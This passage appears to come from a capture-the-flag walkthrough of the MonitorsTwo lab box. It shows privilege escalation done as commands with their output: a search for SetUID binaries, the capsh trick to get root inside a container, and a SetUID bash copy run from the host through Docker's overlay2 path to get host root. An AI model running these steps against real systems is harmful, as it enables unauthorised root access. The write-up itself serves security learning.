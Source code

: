 The container doesn’t have `sudo`. There are SetUID binaries:

```

www-data@50bca5e748b0:/var/www$ find / -perm -4000 -ls 2>/dev/null
    42364     88 -rwsr-xr-x   1 root     root        88304 Feb  7  2020 /usr/bin/gpasswd
    42417     64 -rwsr-xr-x   1 root     root        63960 Feb  7  2020 /usr/bin/passwd
    42317     52 -rwsr-xr-x   1 root     root        52880 Feb  7  2020 /usr/bin/chsh
    42314     60 -rwsr-xr-x   1 root     root        58416 Feb  7  2020 /usr/bin/chfn
    42407     44 -rwsr-xr-x   1 root     root        44632 Feb  7  2020 /usr/bin/newgrp
     5431     32 -rwsr-xr-x   1 root     root        30872 Oct 14  2020 /sbin/capsh
    41798     56 -rwsr-xr-x   1 root     root        55528 Jan 20  2022 /bin/mount
    41819     36 -rwsr-xr-x   1 root     root        35040 Jan 20  2022 /bin/umount
    41813     72 -rwsr-xr-x   1 root     root        71912 Jan 20  2022 /bin/su

```

`capsh` is interesting (it especially stands out because it’s in `sbin`). It has a [GTFObins page](https://gtfobins.github.io/gtfobins/capsh/):

![image-20230501071256012](/img/image-20230501071256012.png)

Running the command works:

```

www-data@50bca5e748b0:/var/www$ capsh --gid=0 --uid=0 --
root@50bca5e748b0:/var/www# 

```

### SetUID bash

Inside the container, I’ll make a copy of `bash` and set it to SetUID:

```

root@50bca5e748b0:/var/www# cp /bin/bash /tmp/0xdf
root@50bca5e748b0:/var/www# chmod 4777 /tmp/0xdf 

```

On the host, this shows up as 4777 (note the `s` where the owner `x` would be):

```

marcus@monitorstwo:~$ ls -l /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/0xdf
-rwsrwxrwx 1 root root 1234376 May  1 11:14 /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/0xdf

```

Running it (with `-p` to not drop privs) gives a root shell:

```

marcus@monitorstwo:~$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/0xdf -p
0xdf-5.1#

```

And I can read `root.txt`:

```

0xdf-5.1# cat root.txt
2d1cb34e************************

```